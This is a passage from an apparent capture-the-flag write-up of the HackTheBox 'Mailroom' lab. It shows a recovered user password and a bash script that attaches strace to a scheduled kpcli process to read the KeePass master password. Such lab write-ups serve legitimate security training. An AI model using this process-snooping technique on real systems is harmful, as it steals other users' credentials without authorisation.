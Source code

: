 * Creds -> `matthew:matthew@mailroom.htb:HueLover83%23`

There is little catch in the password, because this password used in the url last char of the password is url encoded and after decoding it (`HueLover83#`) we can use this password to switch to user "matthew" in the host.

![](screenshots/matthew-su-shell.png)


# Privesc

## Watch feature process and strace

Found a automated task is running kpcli every minute from user "matthew" using `pspy`.

![](screenshots/pspy-process-spy.png)

So i create a bash script to watch for that process to start and then attach it to `strace`.
```bash
#!/bin/bash

while true
do
    pid=\$(ps aux | grep "/usr/bin/kpcli" | grep -v grep | awk '{print \$2}')
    if [ -n "\$pid" ]
    then
        sleep 5 # Immediate attach cause Trace/breakpoint trap
        strace -e read -p "\$pid"
        break
    fi
    sleep 1
done
```



Running this script, output this data, which contain `keepass` database "/home/matthew/personal.kdbx" master password.
